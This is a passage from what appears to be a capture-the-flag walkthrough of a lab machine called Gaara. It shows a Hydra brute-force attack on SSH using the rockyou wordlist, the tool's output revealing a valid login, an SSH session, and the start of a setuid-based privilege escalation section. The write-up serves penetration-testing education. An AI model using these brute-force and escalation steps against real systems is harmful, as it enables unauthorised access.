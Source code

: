 4. `ssh://<ip>`: This part specifies the service (SSH) and the target IP address you want to attack. Replace <ip> with the actual IP address of the target machine. As earlier stated, SSH is a protocol used to securely connect to remote servers.

```shell
hydra -l gaara -P /usr/share/wordlists/rockyou.txt ssh://192.168.219.142
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-04-25 19:16:26
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.219.142:22/
[STATUS] 109.00 tries/min, 109 tries in 00:01h, 14344293 to do in 2193:20h, 13 active
[22][ssh] host: 192.168.219.142   login: gaara   password: *********
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 3 final worker threads did not complete until end.
[ERROR] 3 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-04-25 19:18:58

```

Great we get a hit on the password. We have enough to securely login into the machine using the credentials found.

```shell
ssh gaara@192.168.219.142 
gaara@192.168.219.142's password: 
Linux Gaara 4.19.0-13-amd64 #1 SMP Debian 4.19.160-2 (2020-11-28) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Apr 25 11:55:14 2024 from 192.168.45.238
gaara@Gaara:~$ 

```

## Privilege Escalation
Well now all that is left is to excalate to higher privileges and own the machine. To do this we can go through some linux privilege escalation techniques. There are several scripts online that might help us to enumarate, but it is still very important to understand what pieces of information to look for and be able to perfom this enumaration manually. 

Several details to look out for include the OS version, kernel version and running services. One effective way to find such vectors is by searching for files with the setuid bit set. Setuid files are executed with the permissions of the file owner, which can often be root. If these files have vulnerabilities, they can be exploited to gain elevated privileges.
